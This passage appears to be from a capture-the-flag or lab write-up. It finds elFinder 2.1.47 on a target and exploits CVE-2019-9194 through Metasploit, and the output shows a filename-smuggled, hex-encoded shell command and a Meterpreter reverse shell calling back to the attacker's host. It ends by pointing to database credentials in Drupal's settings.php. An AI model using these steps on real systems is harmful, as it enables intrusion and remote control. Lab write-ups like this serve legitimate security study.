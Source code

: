 ```terminal
301      GET        9l       29w      325c http://10.150.150.182/test-site/test-2 => http://10.150.150.182/test-site/test-2/
```

The /test-site/test-2 directory reveals an instance of `elfinder` running on the webpage.

![elfinder](3.png)

The version is `2.1.47`.

After some googling we find that this version is vulnerable to command injection in the PHP connector [CVE-2019-9194](https://nvd.nist.gov/vuln/detail/CVE-2019-9194).

We can find an exploit on metasploit with the name `exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`, let's use it and fill in the options.

```terminal
[msf](Jobs:0 Agents:1) >> use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
[*] Using configured payload php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> setg rhosts 10.150.150.182
rhosts => 10.150.150.182
[msf](Jobs:0 Agents:1) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> setg targeturi /test-site/test-2/
targeturi => /test-site/test-2/
[msf](Jobs:0 Agents:1) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> setg lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:0) exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) >> run
[*] Started reverse TCP handler on 10.66.66.230:4444 
[*] Uploading payload 'Ju8zmN.jpg;echo 6370202e2e2f66696c65732f4a75387a6d4e2e6a70672a6563686f2a202e6a396749645262796e2e706870 |xxd -r -p |sh& #.jpg' (1953 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/test-site/test-2/php/.j9gIdRbyn.php) ...                               
[*] Sending stage (40004 bytes) to 10.150.150.182
[+] Deleted .j9gIdRbyn.php                                                                     
[*] Meterpreter session 1 opened (10.66.66.230:4444 -> 10.150.150.182:34006) at 2025-04-21 19:00:42 +0100
[*] No reply    
[*] Removing uploaded file ...
[+] Deleted uploaded file                                                                      
                                               
(Meterpreter 1)(/var/www/html/test-site/test-2/php) > getuid
Server username: www-data
```

## **Privilege Escalation**

### www-data -> user1

Drupal has a file at `/var/www/html/restaurante/sites/default/settings.php` that contains credentials for the database that's used for authentication. Let's check that file.

